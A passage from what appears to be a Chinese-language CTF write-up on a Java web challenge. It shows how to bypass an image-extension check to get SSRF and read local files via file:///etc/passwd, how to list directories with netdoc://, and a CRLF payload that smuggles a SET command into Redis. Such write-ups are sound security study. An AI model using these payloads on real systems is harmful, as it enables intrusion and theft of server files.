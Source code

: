 ```
URL url = new URL(urlString);
URLConnection urlConnection = url.openConnection();
```
但这之前我们需要绕过endWithImg的判断

```
private static boolean endWithImg(String imgUrl){
    if(StringUtils.isNotBlank(imgUrl)&&(imgUrl.endsWith(".bmp")||imgUrl.endsWith(".gif")
            ||imgUrl.endsWith(".jpeg")||imgUrl.endsWith(".jpg")
            ||imgUrl.endsWith(".png"))){
        return true;
    }else{
        return false;
    }
}
```

函数比较清楚，对图片链接的结尾做了判断，也很好绕过，我们可以用形似
```
http://11111/111.php?a=1.jpg
```

就可以直接绕过判断了，这里还算比较明白，我们可以直接用file协议去读本地文件，形似`file:///etc/passwd?a=1.jpg`就可以获取文件内容了。

唯一的问题是，我们如何找到flag位置了，这就涉及到一个小trick了

**在java中，我们可以用file:///或netdoc:///来列目录**

通过这种方式，我们可以获取到服务器上的第一个flag

## 2 ##

当然这里的第一题是当时的非预期，因为这种列目录方式只在java中才有，我们回到题目继续分析。

在第一题中我们找到了一个SSRF漏洞，在第二题中，修复了headimg使用file协议读文件的漏洞，但我们可以用CRLF向Redis写入数据。

```
headimg.do?url=http://127.0.0.1%0a%0dSET%20A%20A:6379
```
-->
```
redis set A A
```
但是有什么用呢？

让我们再回到题目代码

在managercontroller中，我们可以发现所有关于redis的操作都在这里，但这里有一个限制是要求当前用户的isadmin必须为1，但整个代码中并没有任何关于这部分的操作，所以我们顺着回顾代码中可能接触到设置isadmin的位置。

跟入注册代码controller.LoginController中，关于注册的代码如下：
```
@RequestMapping(value = "/doregister.do",method = RequestMethod.POST)
public String DoRegister(User user, String repassword, Model model){
    String result = userService.register(user,repassword);
    if(result.equals("ok")){
        return "login";
    }else{
        model.addAttribute("message",result);
        return "register";
    }
}

@RequestMapping(value = "/register.do",method = RequestMethod.GET)
public String Register(){
   return "register";
}
```
